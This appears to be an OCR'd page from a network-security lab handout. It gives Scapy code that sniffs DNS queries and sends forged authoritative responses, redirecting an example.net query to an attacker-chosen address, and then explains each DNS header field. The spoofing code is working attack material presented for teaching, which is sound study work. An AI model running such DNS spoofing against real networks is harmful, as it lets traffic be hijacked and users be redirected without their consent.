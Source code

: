 ```
# Swap the source and destination IP address
IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)
```
```
# Swap the source and destination port number
UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)
```
```
# The Answer Section
Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type=’A’,
ttl=259200, rdata=’10.0.2.5’)
```
```
# The Authority Section
NSsec1 = DNSRR(rrname=’example.net’, type=’NS’,
ttl=259200, rdata=’ns1.example.net’)
NSsec2 = DNSRR(rrname=’example.net’, type=’NS’,
ttl=259200, rdata=’ns2.example.net’)
```
```
# The Additional Section
Addsec1 = DNSRR(rrname=’ns1.example.net’, type=’A’,
ttl=259200, rdata=’1.2.3.4’)
Addsec2 = DNSRR(rrname=’ns2.example.net’, type=’A’,
ttl=259200, rdata=’5.6.7.8’)
```
```
# Construct the DNS packet
DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, ¿
qdcount=1, ancount=1, nscount=2, arcount=2,
an=Anssec, ns=NSsec1/NSsec2, ar=Addsec1/Addsec2)
```
```
# Construct the entire IP packet and send it out
spoofpkt = IPpkt/UDPpkt/DNSpkt
send(spoofpkt)
```
# Sniff UDP query packets and invoke spoof_dns().
pkt = sniff(filter=’udp and dst port 53’, prn=spoof_dns)

Line¿constructs the DNS payload, including DNS header and data. Each field of the DNS payload is
explained in the following:

- id: Transaction ID; should be the same as that in the request.


- qd: Query Domain; should be the same as that in the Request.
- aa: Authoritative answer (1 means that the answer contains Authoritative answer).
- rd: Recursion Desired (0 means to disable Recursive queries).
- qr: Query Response bit (1 means Response).
- qdcount: number of query domains.
- ancount: number of records in the Answer section.
- nscount: number of records in the Authority section.
- arcount: number of records in the Additional section.
- an: Answer section
- ns: Authority section
- ar: Additional section
